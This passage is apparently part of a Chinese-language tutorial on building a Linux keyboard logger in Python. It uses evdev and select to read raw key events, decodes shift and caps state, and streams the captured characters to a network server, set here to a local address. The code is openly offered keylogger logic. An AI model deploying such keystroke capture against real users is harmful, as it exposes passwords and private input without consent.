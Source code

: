 #### 5.2.2 使用`evdev`获取键盘输入的数据

在这里我们使用`evdev`库来获取原始的键盘数据，在这里我们使用`select`库来监听键盘的状态，若有输入时，readers 返回键盘的文件描述符，evdev 把键盘的输入转化为多个`event`对象。在这里只需要筛选类型为`EV_KEY`的键盘输入 event 对象即可。库的使用说明可以参考官方[文档](http://python-evdev.readthedocs.io/en/latest/tutorial.html#listing-accessible-event-devices)

```
def linux_thread_func(file_name, file_type, content_handler, seconds=10):
      # 获取键盘设备
      devices = monitor_keyboard(find_keyboard_devices(device_filter))
      # 维护shift和caps状态， 对evdev库的event对象进行解析
      dec = decode_character()
      # 连接到指定的服务器
      # 运行 python server.py 可产生一个本地的服务
      server_instance = NetworkClient({"IP": "127.0.0.1", "PORT": 8888})
      # 传输一个文本传输的任务
      text_task = NetworkTaskManager(server_instance, file_type, file_name)
      hook_handler = [None, ]
      # 缓冲区处理, 关联网络文本传输任务
      char_handler = content_handler(text_task.send_content, hook_handler, seconds)

      now_t = time.time()
      while True:
          if int(time.time() - now_t) >= seconds:
              break
          # select 是监听文件描述符的一个库，监听当前所有的键盘设备
          readers, writes, _ = select(devices.keys(), [], [])
          # readers可能有多个键盘设备，所以是一个数组结构
          for r in readers:
              # 键盘有输入操作
              events = devices[r].read()
              for event in events:
                  if event.type == ecodes.EV_KEY:
                      # 转化为自定义的event对象，多了type, status_code属性
                      cus_event = CusKeyEvent(event)
                      # 对event进行解析
                      ret_char = dec(cus_event)
                      if ret_char:
                          # 将当前字符加入到缓存区，并执行相关的缓冲区操作
                          char_handler(ret_char)

```

#### 5.2.3 解析`evdev`获取的原始数据

为了解析原始数据，使用了以下功能组件：

- `shift`, `caps`按键的状态管理组件`StatusManager`
- 扩展的`event`对象`CurKeyEvent`

在按键过程中，shift 键和 caps 键会影响其他键效果 (同时按下 shift+'z'那么应该是'Z'), 因此维护了一个`StatusManager`对象来管理 shift 和 caps 的状态，属性方法`get_current_key`可以根据当前的状态输出正确的字符结果。部分其他的按键，比如'`,`'如果同时按住`shfit`键那么按键的结果就是`<`, 也是需要注意的地方，可参考`get_current_key`中的处理。
